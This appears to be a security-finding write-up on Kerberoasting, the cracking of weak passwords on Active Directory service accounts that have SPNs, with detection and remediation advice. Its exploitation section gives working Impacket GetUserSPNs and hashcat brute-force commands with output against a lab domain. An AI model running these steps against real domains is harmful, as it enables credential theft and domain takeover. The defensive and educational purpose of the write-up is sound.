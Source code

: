 /*
Title: Weak SPN Password
Description: Crackable password attached to SPN
*/

- LAST UPDATED DATE: 2016/05/25
- LAST UPDATED BY: @mubix

## Summary

Service Principal Names (SPNs) are a Microsoft way of desinating and identifying where services are running in a domain. These SPNs are attached to accounts within active directory. Any Domain User has the ability to lookup these attributes and request access to the service they provide. The Active Directory Domain Controller will issue the user requesting access to the service a Kerberos ticket. This ticket includes in it the encrypted and hashed password for the user the service is running under. Microsoft does this to allow access in the process of that service.

Example SPN Kerberos Tickets:

```
Id                   : uuid-7856e72a-2c40-4d94-a939-8c671b80e2bd-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKe
                       y}
ValidFrom            : 5/19/2016 3:06:41 PM
ValidTo              : 5/20/2016 12:53:24 AM
ServicePrincipalName : http/win10.sittingduck.info
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-7856e72a-2c40-4d94-a939-8c671b80e2bd-3
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKe
                       y}
ValidFrom            : 5/19/2016 3:06:41 PM
ValidTo              : 5/20/2016 12:53:24 AM
ServicePrincipalName : MSSQLSvc/WIN2K8R2.sittingduck.info
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

## Capabilities and Risk

An attacker can use the SPN services to request tickets for all of the SPNs listed in the domain and attempt to crack the passwords for all of the users the services are running under. If the SPN services are running under a user context, and the attacker is able to brute force crack the password for that user, the attacker can then utilize that password in any way that user has permissions for.

- Acquire list of services running on a particular host
- Acquire Kerberos tickets with the context of the user running the service
- Compromise a domain based on the level of the user running the SPN service (Domain Admin accounts have been used to run Services in the past)

## Detection

Because this is standard usage of Active Directory it blends into normal daily traffic. Windows Advanced Threat Analytics (ATA) has a module that includes detection of large numbers of SPN Kerberos ticket requests. The other useful detection mechanism is to detect any time a service account is used outside of the machine to which it is assigned.

## Remediation

- Use Managed Service Accounts if possible. They are automatically restricted to a single machine (will not work for cluster services), and change their password on a regular basis much like computer accounts.
- Ensure that any service accounts have long, strong passwords (20 character+)

## References

- [Service Principal Names](https://msdn.microsoft.com/en-us/library/ms677949(v=vs.85%29.aspx)
- [Managed Service Accounts](https://technet.microsoft.com/en-us/library/dd560633(v=ws.10%29.aspx)
- [Cracking Kerberos TGS Tickets Using Kerberoast - Exploiting Kerberos to Compromise the Active Directory Domain - Sean Metcalf - ADSecurity.org](https://adsecurity.org/?p=2293)

## Exploitation

Acquire list of SPNs and request them using Impacket's GetUserSPNs.py example script:
```
root@wpad:~/impacket/examples# ./GetUserSPNs.py -dc-ip 192.168.168.10 sittingduck.info/notanadmin
Impacket v0.9.15-dev - Copyright 2002-2016 Core Security Technologies

Password:
ServicePrincipalName                Name        MemberOf                                          PasswordLastSet
----------------------------------  ----------  ------------------------------------------------  -------------------
http/win10.sittingduck.info         uberuser    CN=Domain Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01         
```

Crack the service ticket password using oclHashcat:
```
root@sf:~/oclHashcat# ./oclHashcat -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l 
oclHashcat v2.01 (g0891e39) starting...

Device #1: Hawaii, 2858/4025 MB allocatable, 1010Mhz, 44MCU
Device #2: AMD FX(tm)-8120 Eight-Core Processor, skipped

Hashes: 1 hashes; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Applicable Optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt
* Brute-Force
Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger set to 80c

Device #1: Kernel /root/git/oclHashcat/kernels/m13100_a3.919aa8b9.kernel (234320 bytes)
Device #1: Kernel /root/git/oclHashcat/kernels/markov_le.919aa8b9.kernel (36184 bytes)

Device #1: autotuned kernel-accel to 64
Device #1: autotuned kernel-loops to 50

[s]tatus [p]ause [r]esume [b]ypass [c]heckpoint [q]uit =>

$krb5tgs$23$*user$realm$test/hashcat*$08e2261b7a89e56f530b2f7e0620fe8b$ecdca97c13814c95810d7706faf986dad98d06ba033fc5a45fbe9b417b855db5:hashcat

Session.Name...: oclHashcat
Status.........: Cracked
Input.Mode.....: Mask (?l?l?l?l?l?l?l) [7]
Hash.Target....: $krb5tgs$23$*user$realm$test/hashcat*$08e...
Hash.Type......: Kerberos 5 TGS-REP etype 23
Time.Started...: Wed Feb 17 08:33:57 2016 (5 secs)
Speed.Dev.#1...:   111.0 MH/s (80.83ms)
Recovered......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.......: 252313600/8031810176 (3.14%)
Rejected.......: 0/252313600 (0.00%)
Restore.Point..: 0/456976 (0.00%)
HWMon.GPU.#1...:  0% Util, 42c Temp, 20% Fan

Started: Wed Feb 17 08:33:57 2016
Stopped: Wed Feb 17 08:34:04 2016
```
